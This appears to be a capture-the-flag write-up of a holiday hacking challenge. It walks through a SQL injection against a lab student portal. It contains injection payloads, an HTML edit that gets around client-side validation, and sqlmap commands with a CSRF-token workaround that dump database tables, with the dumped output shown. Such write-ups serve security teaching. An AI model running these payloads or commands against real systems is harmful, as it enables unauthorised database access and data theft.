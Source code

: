 # 9) Retrieve Scraps of Paper from Server
This one sends us to a website... which probably has an injection vuln.
Let's see!
1. Check application status sounds odd, let's focus on that field.
1. Let's try "a@a.com" -> application status is pending (good, someone already registered for us haha 😉)
1. Let's try:
    ```SQL
    a@a.com' OR 1=1;-- -
    ```
    and we get an error message that the email field can't contain ' in it.
    Hmm, let's check the validation script... rabbit hole, it's a simple post html page.
    So... let's change the html (cause I'm lazy and just want to fingerprint) to be a text post instead of an email post so the browser doesn't validate it for us:
    ```html
    <input name="elfmail" type="email" id="inputEmail" class="form-control form-control-lg" placeholder="Email address" required="" autofocus="">
    ```
    becomes
    ```html
    <input name="elfmail" type="text" id="inputEmail" class="form-control form-control-lg" placeholder="Email address" required="" autofocus="">
    ```
1. Now let's try inputting "a@a.com' OR 1=1;-- -"

    Result: no error (good!)

1. Now let's try inputting "'OR 1=1;-- -'

    Result: no error (good!)
1. Now let's fingerprint. http://www.sqlinjection.net/database-fingerprinting/ has some good tips, let's try:
    ```SQL
    a' '@a.com
    ```
    and we get an error message! Bingo!
    ```
    Error: SELECT status FROM applications WHERE elfmail = ''a' '@a.com'';
    You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'a' '@a.com''' at line 1
    ```
    This is good as we're not flying blind here now. We've now identified the SQL version used (MariaDB) as well as the table name "status" and column name "applications" and variable name "elfmail" which is pretty significant. Now we can throw it into SQL map and dump the database :D
    ```SQL
    ' OR 1=1 UNION ALL (SELECT * FROM applications) LIMIT 10;-- -
    ```
    error:
    ```
    Error: SELECT status FROM applications WHERE elfmail = '' OR 1=1 UNION ALL (SELECT * FROM applications) LIMIT 10;-- -';
    The used SELECT statements have a different number of columns
    ```
    ... trying SQLMap, we see that
    ```powershell
    python sqlmap.py -u https://studentportal.elfu.org/application-check.php --data='a@a.com' --csrf-url='https://studentportal.elfu.org/check.php' --csrf-token='token'
    ```
    doesn't work, because we see that the html calls:
    ```javascript
    function submitApplication() {
      console.log("Submitting");
      elfSign();
      document.getElementById("check").submit();
    }
    function elfSign() {
      var s = document.getElementById("token");

      const Http = new XMLHttpRequest();
      const url='/validator.php';
      Http.open("GET", url, false);
      Http.send(null);

      if (Http.status === 200) {
        console.log(Http.responseText);
        s.value = Http.responseText;
      }

    }
    ```
    first!
    Let's modify the csrf validation portion of SQLMap cause that will tie in nicely with the script and we won't have to change much else. The CSRF should instead download the validator.php page and spit it out as the variable. That should be pretty simple.
    Doing some OSINT we find that https://github.com/sqlmapproject/sqlmap/commit/780dbd1c64690726eed291e77f9a2fc12d230610 implements the CSRF check, so we can search the repo for conf.csrfToken and find that it gets set in https://github.com/sqlmapproject/sqlmap/blob/7dae324ed6ca4b7a49c4f6d3a9d0c83925a87614/lib/request/connect.py
    Let's modify the code to do a post to grab the validator.php page first and then convert it to a csrf token.

    to be ... AND STOP future me is coming to tell something that I learned painfully.
    Always check if the request is GET or POST. In this case it was GET. I assumed POST. Thankfully, with verbosity = 6, we found it out, but it took wayyyy too long.

    Now that we've modified the code SQLMap is happily running with the following command:
    ```powershell
    python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=a&token=a' --method GET -p elfmail --dbms "MySQL" --prefix="a@a.com' " --csrf-url='https://studentportal.elfu.org/validator.php' --csrf-token='token' --time-sec=10 --string='still'
    ```
    whew that took far too long to correct. :D
    That query is taking some time, even after it found a viable exploit, so let's skip ahead and run:
    ```powershell
    python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=a&token=a' --method GET -p elfmail --dbms "MySQL" --prefix="a@a.com' " --csrf-url='https://studentportal.elfu.org/validator.php' --csrf-token='token' --time-sec=10 --string='still' --dbs
    # lists elfu and information_schema
    python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=a&token=a' --method GET -p elfmail --dbms "MySQL" --prefix="a@a.com' " --csrf-url='https://studentportal.elfu.org/validator.php' --csrf-token='token' --time-sec=10 --string='still' --tables -D elfu
    # lists krampus, applications, and students
    python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=a&token=a' --method GET -p elfmail --dbms "MySQL" --prefix="a@a.com' " --csrf-url='https://studentportal.elfu.org/validator.php' --csrf-token='token' --time-sec=10 --string='still' --dump -D elfu -T krampus
    # dumps 6 picture URLs:
    1,/krampus/0f5f510e.png
    2,/krampus/1cc7e121.png
    3,/krampus/439f15e6.png
    4,/krampus/667d6896.png
    5,/krampus/adb798ca.png
    6,/krampus/ba417715.png
    ```
1. Piecing together the images, we find the message contains:
```
From the Desk of <unreadable>

Date: August 23, 20<unreadable>

Memo to Self:

Finally! I've figured out how to destroy Christmas!
Santa has a brand new, cutting edge sleigh guidance
technology, called the Super Sled-o-matic.

I've figured out a way to poison the data going into the
system so that it will divert Santa's sled on Christmas
Eve!

Santa will be unable to make the trip and the holiday
season will be destroyed! Santa's own technology will
undermine him!

That's what they deserve for not listening to my
suggestions for supporting other holiday characters!

Bwahahahahaha!
```
1. This gives us the answer, "Super Sled-o-matic"

Bonus:
Let's dump the student database (the application database will probably be huge, but the student database might have something useful):
```powershell
python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=a&token=a' --method GET -p elfmail --dbms "MySQL" --prefix="a@a.com' " --csrf-url='https://studentportal.elfu.org/validator.php' --csrf-token='token' --time-sec=10 --string='still' --dump -D elfu -T students
```
Result:
```csv
id,bio,name,degree,student_number
1,My goal is to be a happy elf!,Elfie,Raindeer Husbandry,392363902026
2,"I'm just a elf. Yes, I'm only a elf. And I'm sitting here on Santa's sleigh, it's a long, long journey To the christmas tree. It's a long, long wait while I'm tinkering in the factory. But I know I'll be making kids smile on the holiday... At least I hope and pray that I will But today. I'm still ju",Elferson,Dreamineering,39210852026
3,Have you seen my list??? It is pretty high tech!,Alabaster Snowball,Geospatial Intelligence,392363902026
4,I am an engineer and the inventor of Santa's magic toy-making machine.,Bushy Evergreen,Composites and Engineering,392363902026
5,My goal is to be a happy elf!,Wunorse Openslae,Toy Design,39236372526
6,My goal is to be a happy elf!,Bushy Evergreen,Present Wrapping,392363128026
7,Check out my makeshift armour made of kitchen pots and pans!!!,Pepper Minstix,Reindeer Husbandry,392363902026
8,My goal is to be a happy elf!,Sugarplum Mary,Present Wrapping,5682168522137
9,Santa and I are besties for life!!!,Shinny Upatree,Holiday Cheer,228755779218
```
Not useful after all, but maybe the student number will be useful later. :(